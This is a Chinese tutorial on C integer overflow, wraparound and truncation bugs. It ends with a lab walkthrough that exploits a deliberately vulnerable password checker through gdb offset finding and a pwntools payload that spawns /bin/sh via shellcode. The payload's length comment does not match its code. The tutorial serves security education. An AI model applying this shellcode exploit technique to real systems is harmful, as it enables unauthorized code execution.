

> 文章内容参考来源：[CTF-All-In-One](https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/3.3.2_integer_overflow.html)


## 整数溢出

关于整数的异常情况主要有三种：

- 溢出
  - 只有有符号数才会发生溢出。有符号数最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出
  - 溢出标志 `OF` 可检测有符号数的溢出
- 回绕
  - 无符号数 `0-1` 时会变成最大的数，如 1 字节的无符号数会变为 `255`，而 `255+1` 会变成最小数 `0`。
  - 进位标志 `CF` 可检测无符号数的回绕
- 截断
  - 将一个较大宽度的数存入一个宽度小的操作数中，高位发生截断

### 有符号整数溢出



- 上溢出

  ```c
  int i;
  i = INT_MAX;  // 2 147 483 647
  i++;
  printf("i = %d\n", i);  // i = -2 147 483 648
  ```

- 下溢出

  ```c
  i = INT_MIN;  // -2 147 483 648
  i--;
  printf("i = %d\n", i);  // i = 2 147 483 647
  ```

### 无符号数回绕


```c
unsigned int ui;
ui = UINT_MAX;  // 在 x86-32 上为 4 294 967 295
ui++;
printf("ui = %u\n", ui);  // ui = 0
ui = 0;
ui--;
printf("ui = %u\n", ui);  // 在 x86-32 上，ui = 4 294 967 295
```

### 截断

- 加法截断：

  ```
  0xffffffff + 0x00000001
  = 0x0000000100000000 (long long)
  = 0x00000000 (long)

  ```

- 乘法截断：

  ```
  0x00123456 * 0x00654321
  = 0x000007336BF94116 (long long)
  = 0x6BF94116 (long)
  ```

### 整型提升和宽度溢出

整型提升是指当计算表达式中包含了不同宽度的操作数时，较小宽度的操作数会被提升到和较大操作数一样的宽度，然后再进行计算。

示例：

``` c
#include<stdio.h>
void main() {
    int l;  
    short s;
    char c;

    l = 0xabcddcba;
    s = l;
    c = l;

    printf("宽度溢出\n");
    printf("l = 0x%x (%d bits)\n", l, sizeof(l) * 8);
    printf("s = 0x%x (%d bits)\n", s, sizeof(s) * 8);
    printf("c = 0x%x (%d bits)\n", c, sizeof(c) * 8);

    printf("整型提升\n");
    printf("s + c = 0x%x (%d bits)\n", s+c, sizeof(s+c) * 8);
}
```

```
$ ./a.out
宽度溢出
l = 0xabcddcba (32 bits)
s = 0xffffdcba (16 bits)
c = 0xffffffba (8 bits)
整型提升
s + c = 0xffffdc74 (32 bits)
```


## 整数溢出实例

### 漏洞多发函数

我们说过整数溢出要配合上其他类型的缺陷才能有用，下面的两个函数都有一个 `size_t` 类型的参数，常常被误用而产生整数溢出，接着就可能导致缓冲区溢出漏洞。

```c
#include <string.h>

void *memcpy(void *dest, const void *src, size_t n);
```

`memcpy()` 函数将 `src` 所指向的字符串中以 `src` 地址开始的前 `n` 个字节复制到 `dest` 所指的数组中，并返回 `dest`。

```c
#include <string.h>

char *strncpy(char *dest, const char *src, size_t n);
```

`strncpy()` 函数从源 `src` 所指的内存地址的起始位置开始复制 `n` 个字节到目标 `dest` 所指的内存地址的起始位置中。

两个函数中都有一个类型为 `size_t` 的参数，它是无符号整型的 `sizeof` 运算符的结果。

```c
typedef unsigned int size_t;
```

### 示例

#### 整数转换

```c
char buf[80];
void vulnerable() {
    int len = read_int_from_network();
    char *p = read_string_from_network();
    if (len > 80) {
        error("length too large: bad dog, no cookie for you!");
        return;
    }
    memcpy(buf, p, len);
}
```

这个例子的问题在于，如果攻击者给 `len` 赋于了一个负数，则可以绕过 `if` 语句的检测，而执行到 `memcpy()` 的时候，由于第三个参数是 `size_t` 类型，负数 `len` 会被转换为一个无符号整型，它可能是一个非常大的正数，从而复制了大量的内容到 `buf` 中，引发了缓冲区溢出。

#### 回绕和溢出

```c
void vulnerable() {
    size_t len;
    // int len;
    char* buf;

    len = read_int_from_network();
    buf = malloc(len + 5);
    read(fd, buf, len);
    ...
}
```

这个例子看似避开了缓冲区溢出的问题，但是如果 `len` 过大，`len+5` 有可能发生回绕。比如说，在 x86-32 上，如果 `len = 0xFFFFFFFF`，则 `len+5 = 0x00000004`，这时 `malloc()` 只分配了 4 字节的内存区域，然后在里面写入大量的数据，缓冲区溢出也就发生了。（如果将 `len` 声明为有符号 `int` 类型，`len+5` 可能发生溢出）

#### 截断

```c
void main(int argc, char *argv[]) {
    unsigned short int total;
    total = strlen(argv[1]) + strlen(argv[2]) + 1;
    char *buf = (char *)malloc(total);
    strcpy(buf, argv[1]);
    strcat(buf, argv[2]);
    ...
}
```

这个例子接受两个字符串类型的参数并计算它们的总长度，程序分配足够的内存来存储拼接后的字符串。首先将第一个字符串参数复制到缓冲区中，然后将第二个参数连接到尾部。如果攻击者提供的两个字符串总长度无法用 `total` 表示，则会发生截断，从而导致后面的缓冲区溢出。

## 实战

接下来，我们来真正利用一个整数溢出漏洞。

```c
#include<stdio.h>
#include<string.h>
void validate_passwd(char *passwd) {
    char passwd_buf[11];
    unsigned char passwd_len = strlen(passwd);
    if(passwd_len >= 4 && passwd_len <= 8) {
        printf("good!\n");
        strcpy(passwd_buf, passwd);
    } else {
        printf("bad!\n");
    }
}

int main(int argc, char *argv[]) {
    if(argc != 2) {
        printf("error\n");
        return 0;
    }
    validate_passwd(argv[1]);
}
```

上面的程序中 `strlen()` 返回类型是 `size_t`，却被存储在无符号字符串类型中，任意超过无符号字符串最大上限值（256 字节）的数据都会导致截断异常。当密码长度为 261 时，截断后值变为 5，成功绕过了 `if`的判断，导致栈溢出。下面我们利用溢出漏洞来获得 shell。

编译程序，`-g`参数是添加调试符号信息，`-z execstack`是取消堆栈代码运行保护。

	$ gcc -g -fno-stack-protector -z execstack vuln.c

使用 gdb 反汇编 `validate_passwd` 函数。

``` assembly
gdb-peda$ disassemble validate_passwd
Dump of assembler code for function validate_passwd:
   0x00000600 <+0>:	push   ebp
   0x00000601 <+1>:	mov    ebp,esp
   0x00000603 <+3>:	push   ebx
   0x00000604 <+4>:	sub    esp,0x14
   0x00000607 <+7>:	call   0x4d0 <__x86.get_pc_thunk.bx>
   0x0000060c <+12>:	add    ebx,0x19f4
   0x00000612 <+18>:	sub    esp,0xc
   0x00000615 <+21>:	push   DWORD PTR [ebp+0x8]
   0x00000618 <+24>:	call   0x460 <strlen@plt>
   0x0000061d <+29>:	add    esp,0x10
   0x00000620 <+32>:	mov    BYTE PTR [ebp-0x9],al
   0x00000623 <+35>:	cmp    BYTE PTR [ebp-0x9],0x3
   0x00000627 <+39>:	jbe    0x655 <validate_passwd+85>
   0x00000629 <+41>:	cmp    BYTE PTR [ebp-0x9],0x8
   0x0000062d <+45>:	ja     0x655 <validate_passwd+85>
   0x0000062f <+47>:	sub    esp,0xc
   0x00000632 <+50>:	lea    eax,[ebx-0x18b0]
   0x00000638 <+56>:	push   eax
   0x00000639 <+57>:	call   0x450 <puts@plt>
   0x0000063e <+62>:	add    esp,0x10
   0x00000641 <+65>:	sub    esp,0x8
   0x00000644 <+68>:	push   DWORD PTR [ebp+0x8]
   0x00000647 <+71>:	lea    eax,[ebp-0x14]
   0x0000064a <+74>:	push   eax
   0x0000064b <+75>:	call   0x440 <strcpy@plt>
   0x00000650 <+80>:	add    esp,0x10
   0x00000653 <+83>:	jmp    0x667 <validate_passwd+103>
   0x00000655 <+85>:	sub    esp,0xc
   0x00000658 <+88>:	lea    eax,[ebx-0x18aa]
   0x0000065e <+94>:	push   eax
   0x0000065f <+95>:	call   0x450 <puts@plt>
   0x00000664 <+100>:	add    esp,0x10
   0x00000667 <+103>:	nop
   0x00000668 <+104>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x0000066b <+107>:	leave  
   0x0000066c <+108>:	ret    
End of assembler dump.
```

从上述代码可知`passwd_buf`的的内存位于`ebp-0x14`的位置，而函数的返回地址总是在`ebp+0x4`的位置，所以返回地址位于相对`passwd_buf`起始处`0x18`的位置。

可以测试一下：

``` assembly
EAX: 0xffffd184 ('A' <repeats 24 times>, "BBBB", 'C' <repeats 172 times>...)
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd520 ("CCCCCC")
EDX: 0xffffd283 ("CCCCCC")
ESI: 0x2 
EDI: 0xf7fb3000 --> 0x1b2db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd1a0 ('C' <repeats 200 times>...)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd1a0 ('C' <repeats 200 times>...)
0004| 0xffffd1a4 ('C' <repeats 200 times>...)
0008| 0xffffd1a8 ('C' <repeats 200 times>...)
0012| 0xffffd1ac ('C' <repeats 200 times>...)
0016| 0xffffd1b0 ('C' <repeats 200 times>...)
0020| 0xffffd1b4 ('C' <repeats 200 times>...)
0024| 0xffffd1b8 ('C' <repeats 200 times>...)
0028| 0xffffd1bc ('C' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

程序崩溃时恰好是`BBBB`位于`EIP`寄存器内。并且此时的`ESP`内的值即为之前`strcpy`函数执行期间`EBP`寄存器内的值。

可以构建下面的payload：

``` python
from pwn import *                                       

ret_addr = 0xffffd1a8     # ebp = 0xffffd1a0
shellcode = shellcraft.i386.sh()

payload = "A" * 24
payload += p32(ret_addr)
payload += '\x90' * 10
payload += asm(shellcode)
payload += "C" * 179      # 24 + 4 + 20 + 44 + 169 = 261

print payload
```

在GDB中执行，则可以得到预期结果：

	gdb-peda$ r `python2 exp.py `
	Starting program: /home/test/ctfaio/vuln `python2 exp.py `
	good!
	process 98974 is executing new program: /bin/dash
	$ echo 1
	1

但是直接运行程序却无法拿到shell，个人认为是由于直接运行程序的时候栈地址不同于在GDB中运行时。